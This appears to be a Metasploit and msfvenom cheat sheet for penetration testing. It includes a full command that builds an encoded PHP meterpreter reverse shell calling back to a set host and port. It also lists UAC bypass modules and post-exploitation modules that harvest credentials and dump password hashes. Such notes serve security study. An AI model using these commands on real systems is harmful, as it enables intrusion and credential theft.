

## Metasploit Basic Command:

 - \# service postgresql start
 - \# msfconsole
 - \# search "exploit"
 - \# use "exploit"
 - \# show options
 - \# show info
 - \# show payloads | Here you can see your available payloads for particular exploits.
 - \# set PAYLOADS "payload" 
 - \# show options | Here you get some additional fields as payload set.
 - \# exit

# Structure of Metasploit-Framework:

-Location : **"/usr/share/metasploit-framework"**

# MSFVENOM BASIC:
-   \# msfvenom --help
-   \# msfvenom --list payloads
-   \# msfvenom --list payloads | grep php
-   \# msfvenom --list encoder
-   \# msfvenom --list formats
-   \# msfvenom -p "payload" --list-options
-   \# msfvenom -p php/meterpreter_reverse_tcp --list-options

> Creating Payload:

	# msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.125 LPORT=4444 -e php/base64 -f raw > shell.php

# Installing Wine on Kali:
  
  > Installing 32 Bit architecture wine:
  
	  # sudo dpkg --add-architecture i386 && sudo apt update
	  
> Installing 64 Bit Wine:

	# sudo apt install wine64 -y
	
# Hexeditor:
-  \# hexeditor "filename"

# UAC Exploits:

	use exploits/windows/local/bypassuac_fodhelper
	use exploits/windows/local/bypassuac

# Some Post Modules:
	
		run post/windows/gather/arp_scanner.rb
		run post/windows/gather/checkvm.rb
		run post/windows/gather/credentials/credential_collector
		run post/windows/gather/hashdump
		run post/windows/gather/dumplinks
		run post/windows/gather/enum_applications
		run post/windows/gather/enum_logged_on_users

			
			

